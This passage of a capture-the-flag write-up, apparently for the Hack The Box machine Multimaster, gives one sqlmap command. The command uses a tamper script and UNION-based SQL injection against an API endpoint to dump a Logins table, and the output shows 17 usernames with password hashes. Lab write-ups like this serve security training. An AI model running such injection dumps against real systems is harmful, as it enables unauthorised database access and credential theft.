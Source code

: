 Let's dump out the `Logins` table.

```
# sqlmap --batch --dbms=mssql --delay=3 --data="{\"name\":\"*\"}" --url=http://megacorp.local/api/getColleagues --tamper=multimaster --technique=U --dump -T Logins -D Hub_DB
...
Database: Hub_DB
Table: Logins
[17 entries]
+------+----------+--------------------------------------------------------------------------------------------------+
| id   | username | password                                                                                         |
+------+----------+--------------------------------------------------------------------------------------------------+
| 1    | sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 2    | okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 3    | ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 4    | kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 5    | shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 6    | james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 7    | cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 8    | rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 9    | zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 10   | jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 11   | alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 12   | ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 13   | nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 14   | zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 15   | aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 16   | minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
| 17   | egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
+------+----------+--------------------------------------------------------------------------------------------------+
```


[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/